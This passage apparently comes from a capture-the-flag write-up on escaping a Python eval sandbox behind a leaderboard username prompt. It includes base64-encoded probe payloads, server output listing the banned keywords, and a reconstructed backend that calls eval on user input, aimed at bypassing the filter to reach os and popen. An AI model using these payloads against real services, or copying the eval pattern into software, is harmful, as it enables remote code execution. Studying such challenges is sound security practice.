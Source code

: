 ```
b'Please give your username for the leaderboard\n'
ezU6Zm9yYmlkZGVuX3dvcmRzLnBvcCgpfQ==
eyd1c2VyX25hbWUnOnN0cihsb2NhbHMoKSl9
username not found
Please give your username for the leaderboard
No existing score for {'token_len_max': 27, 'token_len': 27, 'forbidden_words': ['import', 'exec', 'eval', 'os', 'sys', 'popen'], 'unserialized': {}, 'identifier': "{'user_name':str(locals())}"}
Please give your username for the leaderboard
```

We can see that it did nothing which means the variable is localy reset at each input, and taht this input surely is done in a function.

To sum up all my discorvries, I decided to do an imitation of what I think was ran on the backend

```py
def andle_user_input():
  token_len_max = 27
  identifier = connection.recv(1024).decode()
  forbidden_words = ['import', 'exec', ...]
  token_len = len(identifier)
  if token_len > token_len_max:
    connection.send(b"too long")
    return False
  for word in forbidden_words:
    if word in identifier:
      connection.send(b"banned word")
      return False
  if identifier.startswith("{") and identifier.endswith("}"):
    try:
      unserialize = eval(identifier)
      if not "user_name" in unserialize.keys():
        print("user not found")
        return False
      else:
        find_user(unserialize["user_name"])
        return True
    except:
      pass
  create_user(identifier)
  return True

retour = False
while not retour:
  retour = andle_user_input()
```

So the objectives now are to :
- write in the globals if possible
- bypass banned words to use os and popen

But the first problem is that we can't write because eval can't do affectations

```py
>>> eval("a=3")
Traceback (most recent call last):
  File "<console>", line 1, in <module>
  File "<string>", line 1
    a=3
     ^
SyntaxError: invalid syntax
```
